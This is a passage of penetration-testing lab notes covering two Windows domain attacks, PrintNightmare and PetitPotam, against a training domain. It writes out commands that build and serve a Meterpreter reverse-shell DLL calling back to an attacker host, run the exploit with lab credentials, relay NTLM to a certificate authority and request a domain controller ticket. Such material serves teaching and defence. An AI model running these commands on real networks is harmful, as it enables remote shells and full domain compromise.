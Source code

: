 We can use rpcdump.py to see if Print System Asynchronous Protocol and Print System Remote Protocol are exposed on the target.


### Enumerating for MS-RPRN
```
$ rpcdump.py @172.16.5.5 | egrep 'MS-RPRN|MS-PAR'
```

### Generating a DLL Payload
```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.225 LPORT=8080 -f dll > backupscript.dll

$ sudo smbserver.py -smb2support CompData /path/to/backupscript.dll

use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp

$ sudo python3 CVE-2021-1675.py inlanefreight.local/forend:Klmcargo2@172.16.5.5 '\\172.16.5.225\CompData\backupscript.dll'
```

## PetitPotam (MS-EFSRPC)
PetitPotam (CVE-2021-36942) is an LSA spoofing vulnerability that was patched in August of 2021. The flaw allows an unauthenticated attacker to coerce a Domain Controller to authenticate against another host using NTLM over port 445 via the Local Security Authority Remote Protocol (LSARPC) by abusing Microsoft’s Encrypting File System Remote Protocol (MS-EFSRPC). This technique allows an unauthenticated attacker to take over a Windows domain where Active Directory Certificate Services (AD CS) is in use. In the attack, an authentication request from the targeted Domain Controller is relayed to the Certificate Authority (CA) host's Web Enrollment page and makes a Certificate Signing Request (CSR) for a new digital certificate. This certificate can then be used with a tool such as Rubeus or gettgtpkinit.py from PKINITtools to request a TGT for the Domain Controller, which can then be used to achieve domain compromise via a DCSync attack.

```
$ sudo ntlmrelayx.py -debug -smb2support --target http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL/certsrv/certfnsh.asp --adcs --template DomainController
```

### Running PetitPotam.py
```
$ python3 PetitPotam.py 172.16.5.225 172.16.5.5       
```

Back in our other window, we will see a successful login request and obtain the base64 encoded certificate for the Domain Controller if the attack is successful.

### Requesting a TGT Using gettgtpkinit.py
Next, we can take this base64 certificate and use gettgtpkinit.py to request a Ticket-Granting-Ticket (TGT) for the domain controller.

```
$ python3 /opt/PKINITtools/gettgtpkinit.py INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01\$ -pfx-base64 MIIStQIBAzCCEn8GCSqGSI...SNIP...CKBdGmY= dc01.ccache
```
